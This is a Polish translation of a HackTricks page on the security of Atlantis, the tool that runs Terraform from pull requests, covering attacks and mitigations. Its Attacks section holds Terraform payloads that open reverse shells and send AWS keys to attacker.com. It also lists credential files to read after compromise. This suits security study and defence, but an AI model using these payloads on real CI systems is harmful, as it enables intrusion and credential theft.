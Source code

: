 # Bezpieczeństwo Atlantis

<details>

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Podstawowe informacje

Atlantis pomaga uruchamiać terraform z Pull Requests z serwera git.

![](<../.gitbook/assets/image (161).png>)

## Lokalne laboratorium

1. Przejdź do strony **wydań atlantis** na [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) i **pobierz** odpowiednią wersję.
2. Utwórz **token osobisty** (z dostępem do repozytorium) swojego użytkownika **github**
3. Wykonaj `./atlantis testdrive`, aby utworzyć **repozytorium demonstracyjne**, z którego można **komunikować się z atlantis**
1. Możesz uzyskać dostęp do strony internetowej pod adresem 127.0.0.1:4141

## Dostęp do Atlantis

### Dane uwierzytelniające serwera Git

**Atlantis** obsługuje kilka hostów git, takich jak **Github**, **Gitlab**, **Bitbucket** i **Azure DevOps**.\
Jednakże, aby uzyskać dostęp do repozytoriów na tych platformach i wykonywać akcje, musi im być udzielony **uprzywilejowany dostęp** (przynajmniej uprawnienia do zapisu).\
[Dokumentacja](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) zachęca do utworzenia użytkownika na tych platformach specjalnie dla Atlantis, ale niektórzy ludzie mogą używać kont osobistych.

{% hint style="warning" %}
Z perspektywy atakującego, **konto Atlantis** będzie bardzo **interesujące do skompromitowania**.
{% endhint %}

### Webhooki

Atlantis opcjonalnie używa [**sekretów webhooków**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret), aby zweryfikować, czy **webhooki** otrzymywane od twojego hosta Git są **autentyczne**.

Jednym sposobem potwierdzenia tego byłoby **dozwolenie na żądania tylko z adresów IP** twojego hosta Git, ale łatwiejszym sposobem jest użycie Sekretu Webhooka.

Zauważ, że chyba że używasz prywatnego serwera github lub bitbucket, będziesz musiał wystawić punkty końcowe webhooków do Internetu.

{% hint style="warning" %}
Atlantis będzie **wystawiał webhooki**, aby serwer git mógł przesyłać mu informacje. Z perspektywy atakującego byłoby interesujące dowiedzieć się, **czy można mu wysyłać wiadomości**.
{% endhint %}

### Dane uwierzytelniające dostawcy <a href="#provider-credentials" id="provider-credentials"></a>

[Z dokumentacji:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis uruchamia Terraform po prostu **wykonując polecenia `terraform plan` i `apply`** na serwerze, **na którym jest hostowany Atlantis**. Tak jak w przypadku lokalnego uruchamiania Terraform, Atlantis potrzebuje poświadczeń dla konkretnego dostawcy.

To od ciebie zależy, jak [dostarczasz poświadczenia](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) dla konkretnego dostawcy do Atlantis:

* Chart Helm Atlantisa i Moduł AWS Fargate mają własne mechanizmy do poświadczeń dostawcy. Przeczytaj ich dokumentację.
* Jeśli uruchamiasz Atlantis w chmurze, wiele chmur ma sposoby udzielania dostępu do API chmury aplikacjom działającym na nich, np.:
* [Role EC2 AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Szukaj "EC2 Role")
* [Konta usług instancji GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Wielu użytkowników ustawia zmienne środowiskowe, np. `AWS_ACCESS_KEY`, tam, gdzie działa Atlantis.
* Inni tworzą niezbędne pliki konfiguracyjne, np. `~/.aws/credentials`, tam, gdzie działa Atlantis.
* Użyj [Dostawcy HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs), aby uzyskać poświadczenia dostawcy.

{% hint style="warning" %}
**Kontener**, w którym **działa Atlantis**, najprawdopodobniej **zawiera uprzywilejowane poświadczenia** dostawców (AWS, GCP, Github...), którymi Atlantis zarządza za pomocą Terraform.
{% endhint %}

### Strona internetowa

Domyślnie Atlantis uruchomi **stronę internetową na porcie 4141 w localhost**. Strona ta pozwala jedynie włączyć/wyłączyć zastosowanie atlantis i sprawdzić status planu repozytoriów oraz odblokować je (nie pozwala na modyfikowanie rzeczy, więc nie jest to zbyt przydatne).

Prawdopodobnie nie będzie ona wystawiona do Internetu, ale domyślnie **nie są wymagane żadne poświadczenia** do jej uzyskania (a jeśli są, domyślne to `atlantis`:`atlantis`).

## Konfiguracja serwera

Konfigurację `atlantis server` można określić za pomocą flag wiersza poleceń, zmiennych środowiskowych, pliku konfiguracyjnego lub mieszanki tych trzech.

* Możesz znaleźć [**tutaj listę flag**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) obsługiwanych przez serwer Atlantis
* Możesz znaleźć [**tutaj, jak przekształcić opcję konfiguracji w zmienną środowiskową**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Wartości są **wybierane w tej kolejności**:

1. Flagi
2. Zmienne środowiskowe
3. Plik konfiguracyjny

{% hint style="warning" %}
Zauważ, że w konfiguracji możesz znaleźć interesujące wartości, takie jak **tokeny i hasła**.
{% endhint %}

### Konfiguracja repozytoriów

Niektóre konfiguracje wpływają na **zarządzanie repozytoriami**. Jednakże możliwe jest, że **każde repozytorium wymaga różnych ustawień**, więc istnieją sposoby określenia każdego repozytorium. Oto kolejność priorytetów:

1. Plik [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) repozytorium. Ten plik może być używany do określenia sposobu traktowania repozytorium przez atlantis. Jednak domyślnie niektóre klucze nie mogą być określone tutaj bez odpowiednich flag.
1. Prawdopodobnie wymagane jest zezwolenie na to za pomocą flag takich jak `allowed_overrides` lub `allow_custom_workflows`
2. [**Konfiguracja po stronie serwera**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Możesz przekazać ją za pomocą flagi `--repo-config` i jest to yaml konfigurujący nowe ustawienia dla każdego repozytorium (obsługiwane są wyrażenia regularne)
3. **Domyślne** wartości
#### Zabezpieczenia PR

Atlantis pozwala wskazać, czy chcesz, aby **PR** został **`zatwierdzony`** przez kogoś innego (nawet jeśli nie jest to ustawione w ochronie gałęzi) i/lub był **`scalalny`** (przeszły zabezpieczenia gałęzi) **przed uruchomieniem apply**. Z punktu widzenia bezpieczeństwa zaleca się ustawienie obu opcji.

W przypadku gdy `allowed_overrides` jest ustawione na True, te ustawienia mogą być **nadpisane w każdym projekcie przez plik `/atlantis.yml`**.

#### Skrypty

Konfiguracja repozytorium może **określić skrypty** do uruchomienia [**przed**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) oraz [**po**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) wykonaniu **workflow**.

Nie ma opcji, aby **określić** te skrypty w **pliku `/atlantis.yml`** repozytorium.

#### Workflow

W konfiguracji repozytorium (konfiguracja po stronie serwera) można [**określić nowy domyślny workflow**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), lub [**utworzyć nowe niestandardowe workflowy**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Można również **określić**, które **repozytoria** mogą **uzyskać dostęp** do **nowo** wygenerowanych.\
Następnie, można pozwolić plikowi **atlantis.yaml** każdego repozytorium **określić używany workflow.**

{% hint style="danger" %}
Jeśli flaga [**konfiguracji po stronie serwera**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` jest ustawiona na **True**, workflowy mogą być **określone** w pliku **`atlantis.yaml`** każdego repozytorium. Potrzebne jest również, aby **`allowed_overrides`** określało również **`workflow`** do **nadpisania workflowu**, który ma być użyty.\
To w zasadzie da **RCE na serwerze Atlantis każdemu użytkownikowi, który może uzyskać dostęp do tego repozytorium**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Sprawdzanie zasad Conftest

Atlantis obsługuje uruchamianie **serwerowych** [**zasad conftest**](https://www.conftest.dev/) przeciwko wynikowi planu. Powszechne przypadki użycia tego kroku obejmują:

* Odmawianie korzystania z listy modułów
* Sprawdzanie atrybutów zasobu podczas tworzenia
* Wykrywanie niezamierzonych usunięć zasobów
* Zapobieganie ryzyku bezpieczeństwa (tj. ujawnianie bezpiecznych portów publicznie)

Możesz sprawdzić, jak to skonfigurować w [**dokumentacji**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Komendy Atlantis

[W **dokumentacji**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) znajdziesz opcje, które możesz użyć do uruchomienia Atlantisa:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Ataki

{% hint style="warning" %}
Jeśli podczas eksploatacji napotkasz ten **błąd**: `Error: Error acquiring the state lock`

Możesz naprawić to, wykonując:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Plan RCE w Atlancie - Modyfikacja konfiguracji w nowym PR

Jeśli masz uprawnienia do zapisu w repozytorium, będziesz mógł utworzyć na nim nową gałąź i wygenerować PR. Jeśli możesz **wykonać `atlantis plan`** (lub może być on wykonywany automatycznie) **będziesz mógł wykonać zdalne wykonanie kodu (RCE) w serwerze Atlantisa**.

Możesz to zrobić, umieszczając [**zewnętrzne źródło danych w Atlancie**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Wystarczy umieścić ładunek tak jak poniżej w pliku `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Skrytszy Atak

Możesz przeprowadzić ten atak nawet w **bardziej skryty sposób**, postępując zgodnie z tymi sugestiami:

* Zamiast dodawać rev shell bezpośrednio do pliku terraform, możesz **załadować zewnętrzny zasób**, który zawiera rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Możesz znaleźć kod powłoki rev w [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* W zewnętrznym zasobie użyj funkcji **ref**, aby ukryć **kod powłoki terraform rev w gałęzi** wewnątrz repozytorium, coś w rodzaju: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Zamiast** tworzyć **PR do master** w celu uruchomienia Atlantisa, **utwórz 2 gałęzie** (test1 i test2) i utwórz **PR z jednej do drugiej**. Gdy zakończysz atak, po prostu **usuń PR i gałęzie**.

### Wyciek sekretów z planu Atlantisa

Możesz **wyciągnąć sekrety używane przez terraform** uruchamiając `atlantis plan` (`terraform plan`) poprzez umieszczenie czegoś takiego w pliku terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis zastosuj RCE - Modyfikacja konfiguracji w nowym PR

Jeśli masz uprawnienia do zapisu w repozytorium, będziesz mógł utworzyć na nim nową gałąź i wygenerować PR. Jeśli możesz **wykonać `atlantis apply`, będziesz mógł wykonać RCE w serwerze Atlantis**.

Jednak zazwyczaj będziesz musiał ominąć pewne zabezpieczenia:

* **Możliwość scalenia**: Jeśli to zabezpieczenie jest ustawione w Atlantis, możesz uruchomić **`atlantis apply` tylko wtedy, gdy PR jest możliwy do scalenia** (co oznacza, że zabezpieczenie gałęzi musi zostać zignorowane).
* Sprawdź potencjalne [**obejścia zabezpieczeń gałęzi**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Zatwierdzone**: Jeśli to zabezpieczenie jest ustawione w Atlantis, **inny użytkownik musi zatwierdzić PR**, zanim będziesz mógł uruchomić `atlantis apply`
* Domyślnie możesz nadużyć [**tokena Gitbota, aby ominąć to zabezpieczenie**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Uruchamiając **`terraform apply` na złośliwym pliku Terraform z** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Wystarczy upewnić się, że pewny ładunek, jak poniższe przykłady, znajduje się w pliku `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Zastosuj **sugestie z poprzedniej techniki**, aby przeprowadzić ten atak w **bardziej skrytym sposób**.

### Wstrzykiwanie Parametrów Terraform

Podczas uruchamiania `atlantis plan` lub `atlantis apply` terraform jest uruchamiany wewnętrznie, możesz przekazywać polecenia do terraform z atlantis, komentując coś w stylu:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Coś, co możesz przekazać, to zmienne środowiskowe, które mogą pomóc w ominięciu niektórych zabezpieczeń. Sprawdź zmienne środowiskowe Terraforma w [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Niestandardowy Workflow

Uruchamianie **złośliwych niestandardowych poleceń budowania** określonych w pliku `atlantis.yaml`. Atlantis korzysta z pliku `atlantis.yaml` z gałęzi żądania ściągnięcia, **nie** z `master`.\
Ta możliwość została wspomniana w poprzednim rozdziale:

{% hint style="danger" %}
Jeśli flaga [**konfiguracja po stronie serwera**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` jest ustawiona na **True**, workflowy mogą być **określone** w pliku **`atlantis.yaml`** każdego repozytorium. Potencjalnie konieczne jest również, aby **`allowed_overrides`** określało również **`workflow`** do **nadpisywania workflowu**, który ma być użyty.

To w zasadzie umożliwi **RCE w serwerze Atlantis dla każdego użytkownika, który może uzyskać dostęp do tego repozytorium**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Pomijanie zabezpieczeń planowania/wdrożenia

Jeśli flaga [**konfiguracja po stronie serwera**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _ma_ skonfigurowane `apply_requirements`, repozytorium może **zmodyfikować zabezpieczenia planowania/wdrożenia w celu ich pominięcia**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Przechwytywanie PR

Jeśli ktoś wysyła **komentarze `atlantis plan/apply` na Twoje ważne żądania ściągnięcia,** spowoduje to uruchomienie terraformy, gdy nie chcesz tego.

Co więcej, jeśli nie masz skonfigurowanej **ochrony gałęzi** w celu **ponownej oceny** każdego PR po **wciśnięciu nowego commita** do niego, ktoś mógłby **napisać złośliwe konfiguracje** (sprawdź poprzednie scenariusze) w konfiguracji terraformy, uruchomić `atlantis plan/apply` i uzyskać RCE.

Oto **ustawienie** w zabezpieczeniach gałęzi Github:

![](<../.gitbook/assets/image (216).png>)

### Sekret webhooka

Jeśli uda Ci się **ukraść sekret webhooka** lub jeśli **nie jest używany żaden sekret webhooka**, możesz **wywołać webhook Atlantisa** i **wywołać polecenia atlatis** bezpośrednio.

### Bitbucket

Bitbucket Cloud **nie obsługuje sekretów webhooka**. Może to pozwolić atakującym na **podrobienie żądań z Bitbucket**. Upewnij się, że zezwalasz tylko na adresy IP Bitbucket.

* Oznacza to, że **atakujący** mógłby wysyłać **fałszywe żądania do Atlantisa**, które wyglądają, jakby pochodziły z Bitbucket.
* Jeśli określasz `--repo-allowlist`, mogliby tylko fałszować żądania dotyczące tych repozytoriów, więc największą szkodę mogliby wyrządzić, planując/wdrażając na swoich własnych repozytoriach.
* Aby temu zapobiec, dodaj na **białą listę adresy IP Bitbucketa** (zobacz adresy IP wychodzące).

## Po wykorzystaniu

Jeśli udało Ci się uzyskać dostęp do serwera lub przynajmniej uzyskałeś LFI, istnieje kilka interesujących rzeczy, które warto spróbować odczytać:

* `/home/atlantis/.git-credentials` Zawiera dane dostępu do VCS
* `/atlantis-data/atlantis.db` Zawiera dane dostępu do VCS z dodatkowymi informacjami
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Plik stanu Terraform
* Przykład: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Zmienne środowiskowe
* `/proc/[2-20]/cmdline` Linia poleceń `atlantis server` (może zawierać dane poufne)

## Środki zaradcze

### Nie używaj na publicznych repozytoriach <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Ponieważ każdy może komentować publiczne żądania ściągnięcia, nawet przy dostępnych wszystkich dostępnych środkach bezpieczeństwa, nadal jest niebezpieczne uruchamianie Atlantisa na publicznych repozytoriach bez właściwej konfiguracji ustawień bezpieczeństwa.

### Nie używaj `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Jeśli działasz na publicznym repozytorium (co nie jest zalecane, patrz powyżej), nie powinieneś ustawiać `--allow-fork-prs` (domyślnie false), ponieważ każdy może otworzyć żądanie ściągnięcia ze swojego forka do Twojego repozytorium.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis wymaga określenia listy dozwolonych repozytoriów, z których będzie akceptować webhooki za pomocą flagi `--repo-allowlist`. Na przykład:

* Konkretne repozytoria: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Cała Twoja organizacja: `--repo-allowlist=github.com/runatlantis/*`
* Wszystkie repozytoria w Twojej instalacji GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Wszystkie repozytoria: `--repo-allowlist=*`. Przydatne, gdy jesteś w sieci chronionej, ale niebezpieczne bez ustawienia sekretu webhooka.

Ta flaga zapewnia, że Twoja instalacja Atlantisa nie jest używana z repozytoriami, którymi nie zarządzasz. Zobacz `atlantis server --help` po więcej szczegółów.

### Ochrona planowania Terraformy <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Jeśli atakujący składający żądania ściągnięcia z złośliwym kodem Terraform znajduje się w Twoim modelu zagrożeń, musisz być świadomy, że zatwierdzenia `terraform apply` nie są wystarczające. Istnieje możliwość uruchomienia złośliwego kodu w `terraform plan`, korzystając z [`external` źródła danych](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) lub poprzez określenie złośliwego dostawcy. Ten kod mógłby wyciekać Twoje dane uwierzytelniające.

Aby temu zapobiec, możesz:

1. Wgrać dostawców do obrazu Atlantisa lub hosta i zablokować egress w produkcji.
2. Wdrożyć protokół rejestru dostawców wewnętrznie i zablokować publiczny egress, w ten sposób kontrolujesz, kto ma dostęp do rejestru zapisu.
3. Zmodyfikuj [konfigurację repozytorium po stronie serwera](https://www.runatlantis.io/docs/server-side-repo-config.html) `plan` w celu walidacji przeciwko użyciu niedozwolonych dostawców lub źródeł danych lub PR od niedozwolonych użytkowników. Możesz również dodać dodatkową walidację w tym punkcie, np. wymagając "kciuka w górę" na PR przed zezwoleniem na kontynuowanie `plan`. Conftest może być tu przydatny.

### Sekrety webhooka <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis powinien być uruchamiany z ustawionymi sekretami webhooka za pomocą zmiennych środowiskowych `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Nawet jeśli flaga `--repo-allowlist` jest ustawiona, bez sekretu webhooka atakujący mogliby wysyłać żądania do Atlantisa podszywając się pod repozytorium, które jest na liście dozwolonych. Sekrety webhooka zapewniają, że żądania webhooka faktycznie pochodzą od Twojego dostawcy VCS (GitHub lub GitLab).

Jeśli korzystasz z Azure DevOps, zamiast sekretów webhooka dodaj podstawową nazwę użytkownika i hasło.

### Podstawowa autentykacja Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps obsługuje wysyłanie nagłówka podstawowej autentykacji we wszystkich zdarzeniach webhooka. Wymaga to użycia adresu URL HTTPS dla lokalizacji webhooka.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Jeśli korzystasz z sekretów webhooka, ale ruch jest przesyłany przez HTTP, sekrety webhooka mogą zostać skradzione. Włącz SSL/HTTPS za pomocą flag `--ssl-cert-file` i `--ssl-key-file`.

### Włącz autentykację na serwerze sieciowym Atlantisa <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Bardzo zaleca się włączenie autentykacji w usłudze sieciowej. Włącz BasicAuth za pomocą `--web-basic-auth=true` i skonfiguruj nazwę użytkownika i hasło za pomocą flag `--web-username=yourUsername` i `--web-password=yourPassword`.

Możesz również przekazać je jako zmienne środowiskowe `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` i `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Odnośniki

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Naucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

